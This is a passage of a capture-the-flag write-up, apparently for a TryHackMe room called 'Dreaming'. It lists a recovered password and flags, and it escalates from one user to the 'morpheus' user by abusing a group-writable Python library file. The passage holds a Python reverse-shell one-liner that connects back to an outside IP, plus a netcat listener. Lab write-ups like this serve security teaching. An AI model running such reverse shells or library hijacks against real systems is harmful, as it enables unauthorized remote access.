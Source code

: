 
Got Password for death user

`death` : `!mementoMORI666!`


**death_flag**

`THM{1M_TH3R3_4_TH3M}`

### Pwning morpheus

nothing for sudo -l

nothing interesting for `find / -perm -4000 2>/dev/null`

nothing interesting got `death@dreaming:/home$ find / -type f -user death 2>/dev/null`

for `death@dreaming:/home$ find / -type f -group death 2>/dev/null`
we found
```
--SNIP--
/usr/lib/python3.8/shutil.py
/opt/getDreams.py
--SNIP--
```

we have already explored `/opt/getDreams.py`

we have write permission to `/usr/lib/python3.8/shutil.py`

```
death@dreaming:/home$ ls -la /usr/lib/python3.8/shutil.py
-rw-rw-r-- 1 root death 51474 Aug  7  2023 /usr/lib/python3.8/shutil.py
```

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.101.54",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

`nc -lnvp 9999`

Got Shell

```
morpheus@dreaming:~$ id
uid=1002(morpheus) gid=1002(morpheus) groups=1002(morpheus),1003(saviors)
```

**morpheus_flag.txt**

`THM{DR34MS_5H4P3_TH3_W0RLD}`

**kingdom**

`We saved the kingdom!`